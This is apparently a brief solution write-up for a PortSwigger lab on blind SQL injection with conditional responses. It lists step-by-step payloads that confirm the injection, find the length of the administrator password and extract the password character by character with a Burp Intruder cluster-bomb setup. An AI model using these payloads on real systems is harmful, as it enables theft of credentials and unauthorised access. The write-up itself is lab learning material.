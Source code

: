 # [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

Step - 1
---
```
'
```
Content Length Change because Single Quotes

Step - 2
---
```
' AND '1'='1
```

Step - 3
---
```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
```
Content Length Change
1. password Length: `20`

Step - 4
---
```
' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```
1. Attack Type: `Cluster bomb`
1. Payload Set 1: `1-20`
1. Payload Set 2: `a-z`
